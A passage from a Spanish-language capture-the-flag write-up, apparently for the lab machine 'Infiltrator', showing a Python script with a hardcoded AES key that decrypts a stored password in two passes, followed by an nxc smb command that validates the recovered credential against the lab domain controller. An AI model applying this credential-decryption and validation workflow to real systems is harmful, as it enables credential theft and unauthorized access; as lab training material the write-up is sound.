 ```python
    import sys
    if len(sys.argv) != 2:
        print("Usage: python decrypt_script.py <cipher_text>")
        sys.exit(1)
    
    cipher_text = sys.argv[1]
    
    key = "b14ca5898a4e4133bbce2ea2315a1916"  # Clave para AES
    decrypted_text = decrypt_string(key, cipher_text)
    print(f"Contraseña descifrada: {decrypted_text}")
```
{% endcode %}

Al ejecutar el script y pasarle el valor de la contraseña cifrado, verificamos que nos devolvío un string parecido a Base64. Al intentar descodificar el contenido en Base64 no nos devolvió un resultado legible.

Por lo que volvimos a ejecutar el script pero indicándole este nuevo valor obtenido. Al parecer pudimos desencriptar la contraseña cifrada y obtener la contraseña en texto plano.

```bash
❯ python decrypt.py TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=
Contraseña descifrada: SKqwQk81tgq+C3V7pzc1SA==
❯ echo 'SKqwQk81tgq+C3V7pzc1SA==' | base64 -d; echo
H��BO5�
�
 u{�75H
❯ python decrypt.py SKqwQk81tgq+C3V7pzc1SA==
Contraseña descifrada: WinRm@$svc^!^P
```

Validamos que efectivamente estas credenciales son válidas para el usuario `winrm_svc@infiltrator.htb`.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'winrm_svc' -p 'WinRm@$svc^!^P' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\winrm_svc:WinRm@$svc^!^P 
```

### Logging in winrm\_svc in Output Messenger

Probaremos de acceder a `Output Messenger` con las credenciales recién obtenidas.

<figure><img src="../../../.gitbook/assets/imagen (192).png" alt=""><figcaption></figcaption></figure>
